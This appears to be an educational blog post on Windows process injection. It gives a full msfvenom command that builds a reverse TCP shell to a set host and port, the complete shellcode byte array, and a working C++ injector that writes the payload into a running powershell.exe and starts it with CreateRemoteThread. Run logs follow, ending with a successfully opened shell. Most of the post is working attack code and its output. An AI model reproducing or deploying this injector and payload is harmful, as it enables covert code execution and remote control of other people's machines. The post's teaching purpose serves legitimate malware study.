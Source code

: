 ```yaml
---
layout: post
title:  "Process Injection Techniques"
date:   2023-09-12 00:00:00 +0000
categories: malware
---
```


In this entry, we will dive into Windows process injection techniques demonstrated by malware. Malware authors deploy process injection to run malicious code under another process.

### 1. Payload & Compiling
Many malware authors opt for 32-bit malware, because of it's backwards compatibility with 64-bit systems. 

+ 32-bit processes can run on 64-bit systems.
+ 64-bit processes cannot run on 32-bit systems.

Since most malwares are 32-bit. All code below will be compiled in `x86 (32-bit)`, with the command `g++.exe <input.cpp> -o <output.exe> --std=c++20 -static`.

The issue with writing 32-bit malware, is that it faces difficulties working with the memory of 64-bit processes. We will understand this better later.

A simple reverse TCP shell will be used. The shellcode was generated with the following command - `msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.128 LPORT=443 -f c`. I will exclude the payload code in below examples due to its obstruction.

{% highlight cpp %}

unsigned char payload[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x00\x00\x80\x68"
"\x02\x00\x01\xbb\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";

{% endhighlight %}

<br>
### 2. CreateRemoteThread Injection
CreateRemoteThread is the most basic form of process injection. In essence, it performs the following calls,
+ `OpenProcess()` to get a handle to the victim process.
+ `VirtualAllocEx()` to allocate a new memory page in the victim process.
+ `WriteProcessMemory()` to inject the shellcode into the new memory page.
+ `CreateRemoteThread()` to start the shellcode, in a new thread, in the new memory page.


<br>
#### 2.1. Where to Inject?
The shellcode cannot be injected into any process of choice. Take this example.

{% highlight cpp %}

#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

int main() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    HANDLE process_handle;
    PVOID remote_buffer;
    HANDLE remote_thread;

    PROCESSENTRY32 processEntry;
    processEntry.dwSize = sizeof(PROCESSENTRY32);

    while (Process32Next(snapshot, &processEntry)) {
          
        if (strcmp(processEntry.szExeFile, "powershell.exe") == 0) {
            printf("Found powershell.exe\n");

            process_handle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (int) processEntry.th32ProcessID);
            std::cout << "HANDLE: " << process_handle << std::endl;

            remote_buffer = VirtualAllocEx(process_handle, NULL, sizeof(payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
            std::cout << "Remote Buffer: " << remote_buffer << std::endl;

            bool written = WriteProcessMemory(process_handle, remote_buffer, payload, sizeof(payload), NULL);
            std::cout << "WriteProcessMemory: " << written << std::endl;

            remote_thread = CreateRemoteThread(process_handle, NULL, 0, (LPTHREAD_START_ROUTINE) remote_buffer, NULL, 0, NULL);
            std::cout << "Remote Thread: " << remote_thread << std::endl;

            CloseHandle(process_handle);
            break;
        }
    };

    CloseHandle(snapshot);
    return 0;
}

{% endhighlight %}

<br>
Let's run the code and dissect the output. We notice that `CreateRemoteThread` fails and returns a NULL. If we inspect `GetLastError`, we get `0x5 (ERROR_ACCESS_DENIED)`. But why?

{% highlight powershell %}

C:\Users\root\Desktop
λ injector.exe
Found powershell.exe
Calc HANDLE: 0x104
Remote Buffer: 0xfe0000
WriteProcessMemory: 1
Remote Thread: 0

{% endhighlight %}

<br>
#### 2.2. 32-bit or 64-bit?
The above example fails, because `CreateRemoteThread` cannot be called from a 32-bit process, to start a thread in a 64-bit process. As stated earlier, this is one of the limitations of 32-bit malware.

Now, let's launch a 32-bit powershell.exe process, and run our malware. 

![powershell32](/assets/post_assets/process-injection-techniques/powershell32.png)

<br>
Successfully obtained a handle on the remote thread.

{% highlight powershell%}
C:\Users\root\Desktop
λ injector.exe
Found powershell.exe
HANDLE: 0x118
Remote Buffer: 0x6ac0000
WriteProcessMemory: 1
Remote Thread: 0x12c
{% endhighlight %}

<br>
Popped a shell. Success!

![shell1](/assets/post_assets/process-injection-techniques/shell1.png)